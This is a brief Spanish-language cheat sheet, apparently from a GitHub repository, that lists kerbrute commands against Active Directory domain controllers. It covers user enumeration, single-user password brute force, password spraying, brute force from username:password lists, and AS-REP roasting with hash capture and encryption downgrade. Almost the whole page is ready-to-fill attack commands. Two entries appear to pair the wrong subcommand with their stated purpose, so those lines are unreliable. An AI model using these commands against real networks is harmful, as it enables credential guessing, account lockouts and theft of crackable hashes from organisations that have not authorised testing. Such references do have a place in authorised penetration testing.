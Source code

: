 # Kerbrute Cheat Sheet

#### Enumerar usuarios validos
```
kerbrute userenum --dc <IP-TARGET> -d <DOMAIN> <WORDLISTS>
```

#### Enumerar usuarios validos y guardar el resultado
```
kerbrute userenum --dc <IP-TARGET> -d <DOMAIN> -o <OUTPUT> <WORDLISTS>
```

#### Fuerza bruta de contraseñas a un usuario en particular
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-PASSWORDS_LIST> <USER>
```

#### Fuerza bruta de una contraseña en particular a un listado de usuarios
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_LIST> <PASSWORD>
```

#### Password Spraying
```
kerbrute passwordspray --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_LIST> <PASSWORD>
```

#### Fuerza bruta desde un archivo con un listado con formato username:password
```
kerbrute bruteuser --dc <IP-TARGET> -d <DOMAIN> <FILE-USERNAME_PASSWORD_LIST>
```

#### ASREP-Roasting Attack
```
kerbrute userenum -d <DOMAIN> --dc <IP-TARGET> <WORDLISTS> --hash-file hash.asreproast --downgrade
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)